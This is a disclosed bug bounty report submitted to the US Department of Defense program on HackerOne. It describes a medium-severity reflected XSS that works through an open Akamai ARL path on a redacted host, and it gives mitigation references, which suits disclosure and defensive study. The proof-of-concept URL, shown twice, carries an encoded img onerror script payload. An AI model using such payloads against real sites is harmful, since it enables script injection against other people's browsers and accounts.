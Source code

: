 # Open Akamai ARL XSS at ████████

## Report Details
- **Report ID**: 1317031
- **URL**: https://hackerone.com/reports/1317031
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-08-23T23:47:23.164Z
- **Disclosed**: 2022-04-07T19:54:34.858Z

## Reporter
- **Username**: whoisbinit
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
## Summary
There is Open Akamai ARL XSS at ████

## Proof-of-Concept
https://█████████/7/0/33/1d/www.citysearch.com/search?what=Binit&where=Binit%22%3E%3Cimg%20src%3Dbinit%20onerror%3Dalert%28document.domain%29%3E

## References:
- https://github.com/war-and-code/akamai-arl-hack
- https://twitter.com/SpiderSec/status/1421176297548435459
- https://warandcode.com/post/akamai-arl-hack/
- https://github.com/cybercdh/goarl
- https://community.akamai.com/customers/s/article/WebPerformanceV1V2ARLChangeStartingFebruary282021?language=en_US

## Impact

Attackers can execute malicious JavaScript code in the target webpage.

## System Host(s)
███

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
https://██████/7/0/33/1d/www.citysearch.com/search?what=Binit&where=Binit%22%3E%3Cimg%20src%3Dbinit%20onerror%3Dalert%28document.domain%29%3E

## Suggested Mitigation/Remediation Actions
Visit
- https://community.akamai.com/customers/s/article/WebPerformanceV1V2ARLChangeStartingFebruary282021?language=en_US



## Attachments
No attachments
